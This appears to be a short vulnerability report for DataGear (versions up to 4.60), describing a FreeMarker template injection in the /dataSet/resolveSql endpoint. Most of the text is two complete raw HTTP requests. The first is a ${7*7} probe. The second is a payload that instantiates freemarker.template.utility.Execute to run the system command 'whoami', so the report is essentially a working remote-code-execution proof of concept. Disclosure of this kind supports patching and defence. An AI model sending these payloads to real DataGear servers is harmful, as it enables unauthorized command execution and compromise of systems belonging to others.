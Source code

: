 # Vulnerability description

datagear exists a freemaker template injected in the /dataSet/resolveSql route rendering sql statement

# Affects Version

Datagear <=4.60

# Vulnerability certificate

```
POST /dataSet/resolveSql HTTP/1.1
Host: 127.0.0.1:50401
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.1.0; MAIN_MENU_COLLAPSE=false; DETECT_NEW_VERSION_RESOLVED=true; JSESSIONID=558AD79A275792C7E90DB8962991CC43
Connection: keep-alive
Accept-Encoding: gzip, deflateAccept: */*Connection: keep-alive
Content-Type: application/json
Content-Length: 17

{"sql": "${7*7}"}
```

![image.png](https://gitee.com/nn0nkey/picture/raw/master/img/20241112221757.png)

You can also execute arbitrary commands

```
POST /dataSet/resolveSql HTTP/1.1
Host: 127.0.0.1:50401
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: USER_ID_ANONYMOUS=97269975b0004387b7443950946b97a8; DETECTED_VERSION=5.1.0; MAIN_MENU_COLLAPSE=false; DETECT_NEW_VERSION_RESOLVED=true; JSESSIONID=558AD79A275792C7E90DB8962991CC43
Connection: keep-alive
Accept-Encoding: gzip, deflateAccept: */*Connection: keep-alive
Content-Type: application/json
Content-Length: 88

{"sql": "<#assign value='freemarker.template.utility.Execute'?new()>${value('whoami')}"}
```

![image.png](https://gitee.com/nn0nkey/picture/raw/master/img/20241112221943.png)
